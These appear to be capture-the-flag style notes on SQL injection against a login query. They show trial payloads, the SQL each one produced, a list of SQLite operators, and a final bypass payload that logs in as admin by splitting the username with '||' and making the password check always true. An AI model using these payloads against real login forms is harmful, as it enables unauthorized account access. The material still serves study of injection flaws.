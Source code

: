 # SQL Injection

this payload

```
' || ''-'
```

got this output

```
SELECT username, password FROM users WHERE username='' || ''-'' AND password='' || ''-''
```

SELECT username, password FROM users WHERE username=''||'a'||'dmin' AND password='qd'
SELECT username, password FROM users WHERE username='a'||'dmin' AND password='qd'

concat not working for some reason

so this works for the admin part

```sql
SELECT username, password FROM users WHERE username='adm'||'in' AND password='arast' IS NOT 'a' IS 'a'
```

# Available SQL Operators

```
+ addition
- subtraction
% modulus
BETWEEN
EXISTS
IN
NOT IN
LIKE
GLOB
NOT
OR
IS NULL
IS
IS NOT
||
UNIQUE
| bitwise or
& bitwise and
```

# Paylod

username:`ad'||'min`
password:`a' IS NOT 'b`
